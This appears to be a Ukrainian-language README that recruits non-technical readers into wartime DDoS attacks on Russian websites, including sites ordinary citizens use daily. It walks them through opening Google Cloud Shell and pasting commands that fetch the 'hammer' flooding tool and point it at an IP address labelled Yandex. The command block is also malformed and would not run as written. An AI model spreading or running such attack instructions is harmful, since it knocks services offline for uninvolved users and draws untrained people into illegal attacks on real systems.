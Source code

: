 
# Справжня інформаційна війна

### Зараз йде війна не тільки реальному але й *інформаційному просторі*. В містах та селах за нас борется ЗСУ та тероборона, а в інтернеті можемо боротися і всі ми, навіть якщо ви далекі від теми програмування.

А все завдяки **DDos атакам** на пропагандистські російські сайти, а також на сайти якими користуються її громадяни в повсякденному житті.

>DDoS attack (*розподілена атака на відмову в обслуговуванні*) - напад на комп'ютерну систему з наміром зробити комп'ютерні ресурси недоступними користувачам, для яких комп'ютерна система була призначена)

Завдяки ним ми можемо *лишити їх можливості черпати фейкову інформацію та поширювати її*. Все що від вас потрібно, перейти [за цим посиланням](https://shell.cloud.google.com/?hl=en_US&fromcloudshell=true&show=terminal) (якщо ви хочете провести атаку з телефону, то потрібно завантажити google shell), при необхідності створити гугл акаунт,  і ввести ці команди в *строку термінала* . 
***
### Requierments
- Web Browser
- Google Account
- Keyboard
***
### DDOS >> YANDEX
```
https://github.com/cyweb/hammer && cd hammer \
python3 hammer.py -s 5.255.255.50
```

***
  
Цим саме ви запустите DDos атаку з вашого пристрою. Ось так, сидячи вдома, ви можете допомогти своїй країні в інформаційному просторі. **Слава Україні!**
> детальніше ознайомитися з даною ситуацією Ви можете за цим посиланням:
> **https://github.com/curated-intel/Ukraine-Cyber-Operations**
2
